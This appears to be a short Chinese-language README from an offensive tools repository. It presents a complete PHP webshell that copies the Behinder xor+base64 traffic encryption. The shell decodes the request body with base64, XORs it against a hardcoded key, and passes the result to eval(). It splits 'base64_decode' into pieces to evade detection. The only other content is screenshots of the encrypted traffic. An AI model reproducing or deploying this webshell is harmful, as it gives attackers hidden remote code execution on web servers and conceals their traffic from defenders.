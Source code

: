 # 2023.8.12

1. 参考冰蝎xor+base64加密方式。来加密流量



### webshell

```
<?php

function Decrypt($data)
{
    $key="e45e329feb5d925b"; 
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i+1&15]; 
    }
    return $after;
}
eval(Decrypt(file_get_contents("php://input")));

?>
```



### 加密效果

![image-20230812222228181]([.\img\image-20230812222228181.png](https://github.com/wy876/tools/blob/master/img/image-20230812222228181.png)https://github.com/wy876/tools/blob/master/img/image-20230812222228181.png)

![image-20230812222254773](.\img\image-20230812222254773.png)



